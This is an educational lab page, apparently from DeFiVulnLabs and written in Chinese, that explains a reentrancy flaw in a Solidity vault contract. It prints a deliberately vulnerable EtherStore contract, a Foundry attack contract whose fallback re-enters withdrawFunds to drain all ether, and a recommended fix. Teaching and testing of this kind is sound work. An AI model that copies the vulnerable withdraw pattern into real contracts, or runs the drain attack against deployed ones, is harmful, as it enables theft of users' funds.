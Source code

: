 # 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  
**名称：** 可重入性漏洞  
**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性漏洞从EtherStore合约中提取超过其应提取的资金。  
该漏洞源于EtherStore合约中的withdrawFunds函数，该函数在更新余额之前，将以太币转账到攻击者的地址。  
这使得攻击者的合约能够在余额更新之前重新调用withdrawFunds函数，从而导致多次提取资金并有可能耗尽EtherStore合约中的所有以太币。  
**场景：**  
EtherStore合约是一个简单的金库，它可以管理每个人的以太币。  
但是它存在漏洞，你能窃取所有的以太币吗？  


**解决方法：**  
遵守“检查-效果-交互”的原则和使用OpenZepplin的重入保护。  


**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否还有有足够的余额，以避免下溢情况。
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

forge test --contracts src/test/Reentrancy.sol-vvvv  
```
// 用于测试EtherStore合约是否存在重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的漏洞
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6c7fb809-e4be-407c-a133-64416461a86e%2FUntitled.png?table=block&id=cc44df8e-6a18-44b2-b9e9-892b3b29be79&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

